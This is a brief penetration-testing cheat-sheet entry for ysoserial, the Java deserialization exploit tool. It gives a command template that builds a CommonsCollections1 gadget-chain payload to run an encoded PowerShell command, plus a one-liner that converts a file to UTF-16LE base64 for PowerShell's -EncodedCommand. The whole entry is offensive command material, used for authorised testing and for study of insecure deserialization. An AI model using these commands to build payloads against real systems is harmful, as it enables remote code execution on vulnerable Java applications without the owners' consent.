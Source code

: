 # ysoserial

% ysoserial, ysoserial.net, java, .net, unserialize

## ysoserial java - generate payload
```
java -jar ysoserial.jar <lib_payload> 'powershell.exe -EncodedCommand <base64_encoded_command>' > <output_file>
```

## convert file to base64 one line
```
iconv -f ASCII -t UTF-16LE <file_to_convert> | base64 | tr -d "\n"
```

= lib_payload : CommonsCollections1
